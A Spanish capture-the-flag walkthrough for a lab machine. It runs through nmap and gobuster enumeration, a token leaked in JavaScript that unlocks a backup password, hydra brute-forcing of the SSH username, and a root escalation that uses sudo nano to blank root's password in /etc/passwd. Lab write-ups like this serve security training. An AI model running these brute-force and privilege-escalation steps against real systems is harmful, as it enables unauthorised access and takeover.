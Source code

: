 ## 1. Reconocimiento Inicial de Puertos con Nmap
 
Realizamos un escaneo con `nmap` para detectar puertos abiertos

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache httpd 2.4.61`: El puerto 80 está abierto y ejecuta un servidor web Apache.
*   `3000/tcp open http Node.js Express framework`: El puerto 3000 está abierto y ejecuta una aplicación Node.js Express. Esto es interesante, ya que las aplicaciones web a menudo contienen vulnerabilidades.
*   `5000/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 5000 está abierto y ejecuta OpenSSH. Es importante notar que el puerto SSH no es el estándar (22), lo que podría indicar una configuración personalizada.

## 2. Enumeración Web y Descubrimiento de Información Sensible

La presencia de un servidor web Apache y una aplicación Node.js en el puerto 3000 sugiere que la enumeración web será crucial.

### 2.1. Inspección de la Página Web (Puerto 80)

Al visitar la página web en el puerto 80 (`http://<IP_DEL_OBJETIVO>`), encontramos un botón que no funciona. Esto es una pista para inspeccionar el código fuente de la página.

### 2.2. Análisis del Código Fuente y Archivo JavaScript

Al inspeccionar el código fuente de la página web, encontramos un enlace a un archivo JavaScript: `http://<IP_DEL_OBJETIVO>/authentication.js`. Accedemos a este archivo y encontramos una función `autenticate()` que contiene un mensaje en la consola:

```javascript
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Este mensaje nos indica que hay un endpoint `/recurso/` que requiere un token de autenticación, y nos proporciona el token: `tokentraviesito`.

### 2.3. Fuzzing Web (Gobuster)

Aunque ya tenemos una pista importante, realizar un fuzzing de directorios con `gobuster` es una buena práctica para descubrir otras rutas o archivos ocultos en el servidor web.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Resultados Relevantes:**

*   `/backend` (Status: 301) [--> `http://<IP_DEL_OBJETIVO>/backend/`]: Este directorio es redirigido, lo que indica que contiene contenido.

Al explorar `http://<IP_DEL_OBJETIVO>/backend/`, encontramos una lista de archivos, incluyendo `server.js`.

## 3. Análisis del Código del Servidor (server.js)

El archivo `server.js` es el código fuente de la aplicación Node.js Express. Analizarlo nos dará una comprensión más profunda de cómo funciona la aplicación y cómo podemos explotarla.

### 3.1. Contenido de `server.js`

```javascript
const express = require(\'express\');
const app = express();

const port = 3000;

app.use(express.json());

app.post(\'/recurso/\', (req, res) => {
    const token = req.body.token;
    if (token === \'tokentraviesito\') {
        res.send(\'lapassworddebackupmaschingonadetodas\');
    } else {
        res.status(401).send(\'Unauthorized\');
    }
});

app.listen(port, \'0.0.0.0\', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

**Análisis del Código:**

*   La aplicación escucha en el puerto 3000.
*   Define una ruta POST `/recurso/`.
*   Verifica si el `token` enviado en el cuerpo de la solicitud (`req.body.token`) es igual a `tokentraviesito`.
*   Si el token es correcto, envía como respuesta la cadena `lapassworddebackupmaschingonadetodas`.

¡Hemos encontrado la contraseña! La contraseña es `lapassworddebackupmaschingonadetodas`.

## 4. Acceso Inicial (SSH)

Ahora que tenemos una contraseña, necesitamos un nombre de usuario para intentar acceder vía SSH (puerto 5000).

### 4.1. Fuerza Bruta SSH para Obtener el Usuario

Utilizamos `hydra` para realizar un ataque de fuerza bruta, pero esta vez, con la contraseña que ya conocemos, intentaremos adivinar el nombre de usuario. Usaremos un diccionario de nombres de usuario comunes.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://<IP_DEL_OBJETIVO>:5000 -s 22 -t 64
```

**Resultado Clave:**

```bash
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Esto nos proporciona el nombre de usuario: `lovely`.

### 4.2. Conexión SSH

Con las credenciales obtenidas (`lovely:lapassworddebackupmaschingonadetodas`), nos conectamos al servidor SSH.

```bash
ssh -p 5000 lovely@<IP_DEL_OBJETIVO>
# Contraseña: lapassworddebackupmaschingonadetodas
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `lovely`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `lovely` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/nano`

Esto significa que el usuario `lovely` puede ejecutar el editor de texto `nano` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Manipulación de `/etc/passwd` para Obtener Root

El archivo `/etc/passwd` contiene información sobre los usuarios del sistema. La segunda columna de cada entrada (separada por dos puntos `:`) suele contener una `x` si la contraseña está almacenada en `/etc/shadow`. Si eliminamos la `x` para el usuario `root`, podemos iniciar sesión como `root` sin contraseña.

1.  **Editar `/etc/passwd` con `nano` como `root`:**

```bash
sudo -u root /usr/bin/nano /etc/passwd
```

Dentro de `nano`, busca la línea que comienza con `root:` y elimina la `x` después del primer dos puntos. La línea debería cambiar de `root:x:0:0:root:/root:/bin/bash` a `root::0:0:root:/root:/bin/bash`.

2.  **Guardar y Salir:** Guarda los cambios (Ctrl+O, Enter) y sal de `nano` (Ctrl+X).

3.  **Cambiar a `root`:** Ahora, puedes usar el comando `su root` (o simplemente `su`) y no te pedirá contraseña.

```bash
su root
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

